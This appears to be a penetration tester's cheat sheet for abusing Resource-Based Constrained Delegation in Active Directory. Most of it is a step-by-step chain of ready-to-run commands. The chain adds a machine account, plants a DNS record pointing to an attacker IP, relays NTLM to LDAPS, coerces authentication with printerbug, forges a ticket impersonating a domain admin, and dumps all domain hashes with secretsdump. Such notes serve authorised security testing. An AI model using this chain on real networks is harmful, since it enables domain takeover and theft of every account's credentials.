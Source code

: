 - Resource-Based Constrained Delegation
	- msDS-AllowedToActOnBehalfOfOtherIdentity - Property on an AD object that allows what users or computers have rights to delegate to that object.
		- Only accounts with SPNs, like machine accounts created by domain users, allowed to be added to this property
	- Prerequisites:
		- No LDAP signing on DCs
			- `cme ldap –u ValidUser –p ValidPass –M ldap-signing`
		- Account with a SPN that can be added to msDS-AllowedToActOnBehalfOfOtherIdentity
			- Check: `cme smb –u ValidUser –p ValidPass –M maq`
		- Need a way to coerce authentication (printerbug, petitpotam, etc.)
	- Exploitation:
		- Add machine account (with a SPN)
			- `impacket-addcomputer -computer-name 'uniqueName' -dc-ip <DC_IP> domain/user:password`
		- Add DNS record to force HTTP authentication
			- `python3 /opt/krbrelayx/dnstool.py -u domain.local\\ValidUser -p ValidPass -a add -r <new_unique_DNS_name> -d <attacker_IP> <DC IP>`
		- Start NTLM Relay
			- `impacket-ntlmrelayx -t ldaps://dc01.domain.local -wh <attacker_IP> --delegate-access --escalate-user <owned_account_with_a_SPN> --no-dump --no-acl --no-da --no-validate-privs`
		- Coerce authentication
			- `python3 /opt/krbrelayx/printerbug.py domain.local/ValidUser:ValidPass@remoteHost <added_DNS_record>@80/fakepath`
		- Request a TGS to impersonate a domain admin on the target host
			- `impacket-getST -spn cifs/remoteHost.domain.local -impersonate <Domain_Admin> domain.local/ValidUser:ValidPass -dc-ip <DC_IP>`
		- Set the ccache environment variable for impacket
			- `export KRB5CCNAME=<Domain_Admin>.ccache`
		- DCSync to dump hashes
			- `impacket-secretsdump -k -no-pass remoteHost.domain.local`